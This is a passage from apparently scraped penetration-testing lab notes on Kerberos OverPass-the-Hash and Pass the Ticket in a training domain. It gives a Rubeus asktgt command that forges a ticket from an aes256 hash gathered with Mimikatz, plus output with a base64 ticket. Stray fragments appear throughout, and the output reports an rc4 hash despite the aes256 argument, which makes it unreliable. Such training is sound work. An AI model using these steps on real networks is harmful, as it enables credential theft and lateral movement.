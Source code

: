 ```powershell
```
{% endcode %}

This will create a new `cmd.exe` window that we can use to request access to any service we want in the context of the target user.

To forge a ticket using `Rubeus`, we can use the module `asktgt` with the username, domain, and hash which can be `/rc4`, `/aes128`, `/aes256`, or `/des`. In the following example, we use the aes256 hash from the information we collect using Mimikatz `sekurlsa::ekeys`.

{% code overflow="wrap" fullWidth="true" %}
```cmd-session
c:\tools> Rubeus.exe  asktgt /domain:inlanefreight.htb /user:plaintext /aes256:b21c99fc068e3ab2ca789bccbef67de43791fd911c6e15ead25641a8fda3fe60 /nowrap

   ______        _
  (_____ \      | |
   _____) )_   _| |__  _____ _   _  ___
  |  __  /| | | |  _ \| ___ | | | |/___)
  | |  \ \| |_| | |_) ) ____| |_| |___ |
  |_|   |_|____/|____/|_____)____/(___/

  v1.5.0

[*] Action: Ask TGT

[*] Using rc4_hmac hash: 3f74aa8f08f712f09cd5177b5c1ce50f
[*] Building AS-REQ (w/ preauth) for: 'inlanefreight.htb\plaintext'
[+] TGT request successful!
[*] base64(ticket.kirbi):

doIE1jCCBNKgAwIBBaEDAgEWooID+TCCA/VhggPxMIID7aADAgEFoQkbB0hUQi5DT02iHDAaoAMCAQKhEzARGwZrcmJ0Z3QbB2h0Yi5jb22jggO7MIIDt6ADAgESoQMCAQKiggOpBIIDpY8Kcp4

  ServiceName           :  krbtgt/inlanefreight.htb
  ServiceRealm          :  inlanefreight.htb
  UserName              :  plaintext
  UserRealm             :  inlanefreight.htb
  StartTime             :  7/12/2022 11:28:26 AM
  EndTime               :  7/12/2022 9:28:26 PM
  RenewTill             :  7/19/2022 11:28:26 AM
  Flags                 :  name_canonicalize, pre_authent, initial, renewable, forwardable
  KeyType               :  rc4_hmac
  Base64(key)           :  0TOKzUHdgBQKMk8+xmOV2w==
```
{% endcode %}

***

### <mark style="color:blue;">Pass the Ticket (PtT)</mark>

Now that we have some Kerberos tickets, we can use them to move laterally within an environment.


[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname
[DC01]: PS C:\Users\john\Documents>
[DC01]: PS C:\Users\john\Documents> whoami
[DC01]: PS C:\Users\john\Documents> hostname